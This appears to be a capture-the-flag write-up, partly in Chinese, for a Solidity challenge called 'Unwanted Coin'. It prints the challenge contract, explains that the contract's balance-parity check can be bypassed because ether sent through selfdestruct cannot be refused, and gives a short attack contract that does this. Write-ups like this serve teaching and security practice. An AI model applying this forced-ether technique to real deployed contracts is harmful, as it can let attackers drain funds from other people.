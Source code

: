 # Unwanted Coin

```solidity

pragma solidity >=0.6.1;

contract Modcoin {

    mapping(uint256 => bool) public is_successful;

    function recvpay() public payable {

        require(((msg.value / 0.001 ether ) % 2 == 0 && ((msg.value % 0.001 ether) == 0)), "Not Accepting These Coins.");

    }

    function getflag(uint256 target) public {

        require((address(this).balance / 0.001 ether ) % 2 == 1,"Not Wanted value");

        require(msg.sender.send(address(this).balance));

        is_successful[target] = true;

    }

    fallback () external payable {

        require(((msg.value / 0.001 ether ) % 2 == 0 && ((msg.value % 0.001 ether) == 0)), "Not Accepting These Coins.");

    }

}

```

原合约中两个支付函数 `recvpay()` 和 `fallback()` 都只允许接受偶数倍0.001 ether的付款，而合约的getflag函数则要求奇数倍 0.001 ether 的合约余额才可以执行（并清空合约余额），这时就需要绕过限制向合约地址发送ether，而合约自毁或挖矿产生的ether是无法拒绝的，可以通过以下自毁合约达到条件。

```solidity

contract Payassist {

    function destroy_pay(address payable addr) public payable {

        selfdestruct(addr);

    }

}```

